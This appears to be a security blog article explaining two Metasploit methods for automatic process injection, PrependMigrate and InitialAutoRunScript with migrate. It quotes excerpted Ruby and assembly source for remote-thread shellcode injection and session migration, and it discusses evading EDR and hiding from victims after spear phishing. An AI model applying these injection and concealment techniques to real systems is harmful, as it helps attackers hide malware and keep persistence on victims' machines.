

# Two Ways of Automatic Process Injection

# Preface
Process injection is a commonly used technique in the process of internal network penetration. Current popular internal network penetration tools such as Cobalt Strike, Metasploit-Framework, and Empire all support the process injection function. The underlying principle is to run malicious code in the memory of system processes to achieve the purpose of hiding itself. This article introduces two ways of using metasploit-framework for automatic process injection and their advantages and disadvantages.

# Why Do We Need Automatic Process Injection
If a penetration test engineer breaks into the internal network through the method of peripheral marking (such as obtaining a Webshell of a DMZ host), usually a kill-free Payload is used to bypass the monitoring of EDR, and the communication with the C2 uses TLS encryption to bypass the traffic monitoring device. Therefore, the operation of establishing the first foothold will not cause any alarm of security devices. At this time, the internal network administrator cannot detect the abnormality in the first time. In this case, usually no process injection operation or manual process injection or migration is required to meet the requirements. The hidden operation at this time is only to make the subsequent source tracing more difficult.

If a penetration test engineer breaks into the internal network through the method of spear phishing, more uncertain factors need to be considered. In addition to basically bypassing EDR and traffic monitoring devices, it is also necessary to perform hidden operations as soon as the target is online, so that ordinary users cannot detect the abnormality or cannot close the malicious process after detecting the abnormality. At this time, automatic process injection becomes the most basic requirement.

# PrependMigrate
## Running Principle
PrependMigrate is one of the advanced parameters of Payload in Metasploit-framework. After entering the payload module, you can view this parameter by using `advanced`.


From the description of the parameters, when this parameter is set to true, a new system process will be automatically created, and the shellcode will be injected into the new process. You can specify which system process to inject into by the PrependMigrateProc parameter.

The core code related to the parameters is in the `metasploit-framework\lib\msf\core\payload\windows\prepend_migrate.rb` file. Here is a part of the key code segment:

```ruby
  def apply_prepend_migrate(buf)
    pre = ''

    test_arch = [ *(self.arch) ]

    if prepend_migrate?
      # Handle all x86 code here
      if test_arch.include?(ARCH_X86)
        migrate_asm = prepend_migrate(buf)
        pre << Metasm::Shellcode.assemble(Metasm::Ia32.new, migrate_asm).encode_string
      # Handle all x64 code here
      elsif test_arch.include?(ARCH_X64)
        migrate_asm = prepend_migrate_64(buf)
        pre << Metasm::Shellcode.assemble(Metasm::X64.new, migrate_asm).encode_string
      end
    end
    return pre + buf
  end
```

The code determines whether the corresponding Payload is x86 or x64:

```ruby
  def prepend_migrate(buf)
    payloadsize = "0x%04x" % buf.length
    procname = datastore['PrependMigrateProc'] || 'rundll32'

    # Prepare instructions to get address of block_api into ebp
    block_api_start = <<-EOS
      call start
    EOS
    block_api_asm = <<-EOS
...
...
...
    # Prepare default exit block (sleep for a long long time)
    exitblock = <<-EOS
      ;sleep
      push -1
      push 0xE035F044           ; hash( "kernel32.dll", "Sleep" )
      call ebp                  ; Sleep(... );
    EOS
...
...
...
      lea edi,[eax+0x60]        ; Offset of empty space for lpProcessInformation
      push edi                  ; lpProcessInformation : write processinfo here
      push eax                  ; lpStartupInfo : current info (read)
      xor ebx,ebx
      push ebx                  ; lpCurrentDirectory
      push ebx                  ; lpEnvironment
      push 0x08000004           ; dwCreationFlags CREATE_NO_WINDOW | CREATE_SUSPENDED
      push ebx                  ; bInHeritHandles
      push ebx                  ; lpThreadAttributes
      push ebx                  ; lpProcessAttributes
      push esi                  ; lpCommandLine
      push ebx                  ; lpApplicationName

      push 0x863FCC79           ; hash( "kernel32.dll", "CreateProcessA" )
      call ebp                  ; CreateProcessA( &si );

      ; if we didn't get a new process, use this one
      test eax,eax
      jz payload                ; If process creation failed, jump to shellcode

    goodProcess:
      ; allocate memory in the process (VirtualAllocEx())
      ; get handle
      push 0x40                 ; RWX
      add bh, 0x10              ; ebx = 0x1000
      push ebx                  ; MEM_COMMIT
    EOS
    migrate_asm << <<-EOS
      push ebx                  ; size
      xor ebx,ebx
      push ebx                  ; address
      push [edi]                ; handle
      push 0x3F9287AE           ; hash( "kernel32.dll", "VirtualAllocEx" )
      call ebp                  ; VirtualAllocEx(...);

      ; eax now contains the destination
      ; WriteProcessMemory()
      push esp                  ; lpNumberOfBytesWritten
      push #{payloadsize}       ; nSize
      ; pick up pointer to shellcode & keep it on stack
      jmp begin_of_payload
      begin_of_payload_return:  ; lpBuffer
      push eax                  ; lpBaseAddress
      push [edi]                ; hProcess
      push 0xE7BDD8C5           ; hash( "kernel32.dll", "WriteProcessMemory" )
      call ebp                  ; WriteProcessMemory(...)

      ; run the code (CreateRemoteThread())
      push ebx                  ; lpthreadID
      push ebx                  ; run immediately
      push ebx                  ; no parameter
      mov ecx,[esp-0x4]
      push ecx                  ; shellcode
      push ebx                  ; stacksize
      push ebx                  ; lpThreadAttributes
      push [edi]
      push 0x799AACC6           ; hash( "kernel32.dll", "CreateRemoteThread" )
      call ebp                  ; CreateRemoteThread(...);

      #{exitblock}              ; jmp to exitfunc or long sleep
```

It can be summarized that its function is mainly realized through assembly language. The basic process is as follows:

+ CreateProcessA creates a new process.
+ VirtualAllocEx applies for memory.
+ WriteProcessMemory writes shellcode.
+ CreateRemoteThread runs shellcode.

## Running Effect
After correctly configuring this parameter in the payload, the corresponding shellcode is generated. When the loader is used to load the generated shellcode, a new system process will be automatically created and the shellcode will be injected into the new process.




## Note
As can be seen from the previous analysis, PrependMigrate realizes by embedding assembly code into the shellcode of the payload. Its advantages are early execution stage and stable operation. The following two points need to be noted:

+ PrependMigrate can only be applied to Payload and cannot be applied to Handler because PrependMigrate runs in the stager1 stage before connecting to the handler.
+ After PrependMigrate finishes executing, the original Loader process will not exit. When the user deletes the loader, it will prompt that the file is occupied. However, manually ending the Loader will not affect the Session.


# InitialAutoRunScript + migrate
## Running Principle
This method is the method introduced in various tutorials on the network. Its implementation principle is to combine the `InitialAutoRunScript` automatic execution script function of metasploit-framework with the `post/windows/manage/migrate` post-penetration module.

There are two parameters for automatic execution scripts, `InitialAutoRunScript` and `AutoRunScript`. The parameter information is as follows:


It can be seen that their functions are to automatically execute scripts (changed to post-type modules in msf5) after the Session is created. `InitialAutoRunScript` is executed before `AutoRunScript`.

The core code is in `metasploit-framework\lib\msf\base\sessions\command_shell.rb`:

```ruby
  def process_autoruns(datastore)
    # Read the initial output and mash it into a single line
    if (not self.info or self.info.empty?)
      initial_output = shell_read(-1, 0.01)
      if (initial_output)
        initial_output.force_encoding("ASCII-8BIT") if initial_output.respond_to?(:force_encoding)
        initial_output.gsub!(/[\x00-\x08\x0b\x0c\x0e-\x19\x7f-\xff]+/n,"_")
        initial_output.gsub!(/[\r\n\t]+/, ' ')
        initial_output.strip!

        # Set the inital output to.info
        self.info = initial_output
      end
    end

    if datastore['InitialAutoRunScript'] &&!datastore['InitialAutoRunScript'].empty?
      args = Shellwords.shellwords( datastore['InitialAutoRunScript'] )
      print_status("Session ID #{sid} (#{tunnel_to_s}) processing InitialAutoRunScript '#{datastore['InitialAutoRunScript']}'")
      execute_script(args.shift, *args)
    end

    if (datastore['AutoRunScript'] && datastore['AutoRunScript'].empty? == false)
      args = Shellwords.shellwords( datastore['AutoRunScript'] )
      print_status("Session ID #{sid} (#{tunnel_to_s}) processing AutoRunScript '#{datastore['AutoRunScript']}'")
      execute_script(args.shift, *args)
    end
  end
```

It can be seen that the code logic is the same, except for the difference in execution order.

The process injection (migration) operation depends on the `post/windows/manage/migrate` module. We extract part of the core code:

```ruby
  def run
...
    target_pid = nil

    if datastore['SPAWN'] and datastore['SPAWN']!= ""
      target_pid = create_temp_proc
    elsif datastore['PID'] and datastore['PID']!= 0
      target_pid = datastore['PID']
    elsif datastore['NAME'] and datastore['NAME']!= ""
      target_pid = session.sys.process[datastore['NAME']]
    end

...

    begin
      print_status("Migrating into #{target_pid}")
      session.core.migrate(target_pid)
      print_good("Successfully migrated into process #{target_pid}")
    rescue ::Exception => e
      print_error("Could not migrate into process")
      print_error("Exception: #{e.class} : #{e}")
    end

    if datastore['KILL']
      print_status("Killing original process with PID #{original_pid}")
      if has_pid?(original_pid)
        session.sys.process.kill(original_pid)
        print_good("Successfully killed process with PID #{original_pid}")
      else
        print_warning("PID #{original_pid} exited on its own")
      end
    end
  end
```

The basic process is as follows:

+ Find the target process through Pid or process name.
+ Migrate the process through session.core.migrate.
+ Determine whether to kill the original process through options.

Among them, session.core.migrate is the most critical operation. The code is located in `metasploit-framework\lib\rex\post\meterpreter\client_core.rb`:

```ruby
  def migrate(target_pid, writable_dir = nil, opts = {})
...
    migrate_stub = generate_migrate_stub(target_process)
    migrate_payload = generate_migrate_payload(target_process)

    # Build the migration request
    request = Packet.create_request(COMMAND_ID_CORE_MIGRATE)

    request.add_tlv(TLV_TYPE_MIGRATE_PID, target_pid)
    request.add_tlv(TLV_TYPE_MIGRATE_PAYLOAD, migrate_payload, false, client.capabilities[:zlib])
    request.add_tlv(TLV_TYPE_MIGRATE_STUB, migrate_stub, false, client.capabilities[:zlib])

    if target_process['arch'] == ARCH_X64
      request.add_tlv( TLV_TYPE_MIGRATE_ARCH, 2 ) # PROCESS_ARCH_X64

    else
      request.add_tlv( TLV_TYPE_MIGRATE_ARCH, 1 ) # PROCESS_ARCH_X86
    end

    # if we change architecture, we need to change UUID as well
    if current_process['arch']!= target_process['arch']
      client.payload_uuid.arch = target_process['arch']
      request.add_tlv( TLV_TYPE_UUID, client.payload_uuid.to_raw )
    end

    # Send the migration request. Timeout can be specified by the caller, or set to a min
    # of 60 seconds.
    timeout = [(opts[:timeout] || 0), 60].max
    client.send_request(request, timeout)

...

    if client.passive_service
      # Sleep for 5 seconds to allow the full handoff, this prevents
      # the original process from stealing our loadlib requests
      ::IO.select(nil, nil, nil, 5.0)
    elsif client.pivot_session.nil?
      # Prevent new commands from being sent while we finish migrating
...

        # Restart the socket monitor
        client.monitor_socket
      end
    end

    # Renegotiate TLV encryption on the migrated session
    secure

    # Load all the extensions that were loaded in the previous instance (using the correct platform/binary_suffix)
    client.ext.aliases.keys.each { |e|
      client.core.use(e)
    }
...
    return true
  end
```

The basic process is as follows:

+ Create the initial connection shellcode and payload shellcode required for migration.
+ Send a TLV request to the Session's stdapi through the stdapi general request interface (refer to the code in `metasploit-payloads\c\meterpreter\source\extensions\stdapi\server\sys`).
+ Create a new monitoring process according to different types of sessions.
+ Load the ext plugins of the original monitoring.

## Running Effect
After correctly configuring the parameters in the Handler, all Sessions that use this Handler to go online will take effect. After the Session is initialized, it will automatically migrate to the specified process.


## Note
As can be seen from the previous analysis, InitialAutoRunScript + migrate starts to run after the Session is initialized. The following points need to be noted:

+ InitialAutoRunScript + migrate can only be applied to Handler and cannot be applied to Payload. Because when it is executed, the Payload has been executed.
+ InitialAutoRunScript + migrate does not occupy the loader after execution. When the user deletes the loader, there is no prompt. The concealment is better.
+ InitialAutoRunScript + migrate has a large action when executing and may cause the Session to drop.


# Summary
To sum up, PrependMigrate and InitialAutoRunScript + migrate have their own advantages and disadvantages in realizing automatic process injection. In the spear phishing scenario, if stability is pursued more, PrependMigrate can be used. If the concealment requirement is higher, InitialAutoRunScript + migrate can be used.